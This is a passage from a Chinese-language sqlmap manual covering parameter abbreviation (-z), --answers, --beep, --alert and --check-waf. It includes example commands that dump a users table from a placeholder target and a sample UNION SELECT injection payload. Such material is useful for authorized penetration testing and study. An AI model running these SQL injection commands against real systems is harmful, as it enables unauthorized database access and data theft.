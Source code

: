 ### 3.3其他的一些参数

#### 使用参数缩写

	参数：-z

有使用参数太长太复杂，可以使用缩写模式。 例如：

	python sqlmap.py --batch --random-agent --ignore-proxy --technique=BEU -u "www.target.com/vuln.php?id=1"
可以写成：

	python sqlmap.py -z "bat,randoma,ign,tec=BEU" -u "www.target.com/vuln.php?id=1"
还有：

	python sqlmap.py --ignore-proxy --flush-session --technique=U --dump -D testdb -T users -u "www.target.com/vuln.php?id=1"
可以写成：

	python sqlmap.py -z "ign,flu,bat,tec=U,dump,D=testdb,T=users" -u "www.target.com/vuln.php?id=1"

​	
#### 成功SQL注入时警告

	参数：--alert

#### 设定会发的答案

	参数：--answers

当希望sqlmap提出输入时，自动输入自己想要的答案可以使用此参数： 例子：

	$ python sqlmap.py -u "http://192.168.22.128/sqlmap/mysql/get_int.php?id=1"--technique=E --answers="extending=N" --batch
	[...]
	[xx:xx:56] [INFO] testing for SQL injection on GET parameter 'id'
	heuristic (parsing) test showed that the back-end DBMS could be 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
	[xx:xx:56] [INFO] do you want to include all tests for 'MySQL' extending provided level (1) and risk (1)? [Y/n] N
	[...]

#### 发现SQL注入时发出蜂鸣声

	参数：--beep
	
	发现sql注入时，发出蜂鸣声。

#### 启发式检测WAF/IPS/IDS保护

	参数：--check-waf
	
	WAF/IPS/IDS保护可能会对sqlmap造成很大的困扰，如果怀疑目标有此防护的话，可以使用此参数来测试。 sqlmap将会使用一个不存在的参数来注入测试

例如：

	&foobar=AND 1=1 UNION ALL SELECT 1,2,3,table_name FROM information_schema.tables WHERE 2>1
如果有保护的话可能返回结果会不同。
